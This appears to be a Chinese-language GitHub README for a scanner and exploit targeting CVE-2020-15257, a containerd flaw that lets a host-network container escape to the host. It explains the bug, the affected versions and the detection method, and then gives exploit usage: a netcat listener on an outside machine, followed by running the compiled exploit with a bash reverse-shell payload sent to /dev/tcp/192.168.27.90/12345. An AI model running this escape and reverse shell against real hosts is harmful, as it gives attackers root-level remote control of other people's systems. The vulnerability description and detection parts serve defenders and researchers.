 # docker
CVE-2020-15257 漏洞扫描POC  附带EXP

### 漏洞信息

```
Containerd 是一个控制 runC 的守护进程，提供命令行客户端和API，用于在一个机器上管理容器。当在docker使用–net=host参数启动，与宿主机共享net namespace时，容器中的攻击者可以绕过访问权限访问 containerd 的控制API 进而导致权限提升，从而实现Docker容器逃逸。

Containerd是行业标准的容器运行时，可作为Linux和Windows的守护程序使用。在版本1.3.9和1.4.3之前的容器中，容器填充的API不正确地暴露给主机网络容器。填充程序的API套接字的访问控制验证了连接过程的有效UID为0，但没有以其他方式限制对抽象Unix域套接字的访问。这将允许在与填充程序相同的网络名称空间中运行的恶意容器（有效UID为0，但特权降低）导致新进程以提升的特权运行。
```

### 影响版本

containerd < 1.4.3

containerd < 1.3.9

### 验证原理

```
探测到docker内部有containerd-shim启动的unix socket即可确认存在该逃逸漏洞。通过docker内部/proc/net/unix中匹配固定socket初步判断是否存在漏洞，进一步可以创建shim cliet通过grpc(ttrpc)协议调用API，这里调用shimClient.ShimInfo作为POC是因为这个接口简单，不需要传参，并通过返回值进一步确认该socket可用。
```





### docker组件版本查看

1、命令行
```
docker version
```
2、docker 接口

```
echo -e "GET /version HTTP/1.0\r\n" | sudo nc -U /var/run/docker.sock
```



### exp
```
外部机器(192.168.27.90)启动监听: nc -lvp 12345
```

```
go build exp.go
./exp "/bin/bash -i &> /dev/tcp/192.168.27.90/12345 0>&1"
```